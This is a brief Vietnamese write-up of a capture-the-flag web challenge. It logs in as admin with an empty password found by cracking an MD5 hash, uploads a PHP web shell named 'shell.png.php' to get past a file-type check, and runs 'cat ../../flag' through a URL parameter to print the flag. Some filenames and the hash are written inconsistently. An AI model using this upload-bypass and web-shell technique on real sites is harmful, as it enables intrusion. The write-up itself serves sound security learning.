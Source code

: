# Solution

Viết script để tìm md5 hash của admin -> `d41d8cd98f00b204e9800998ecf827e` 


Dùng trang này <https://md5.gromweb.com/?md5=d41d8cd98f00b204e9800998ecf8427e> -> password là null chỉ cần `POST /login.php` với data: `uname=admin&pswd=`


Sau khi vào được trang upload.php ta upload một php shell với tên là `shell.png.php` để bypass check

sau đó access tới: `https://typhooncon-knowme.chals.io/uploads/exp.jpg.php?0=cat ../../flag`

ra được flag: `SSD{9a0c843a03de8e257b1068a8659be56ac06991f3}`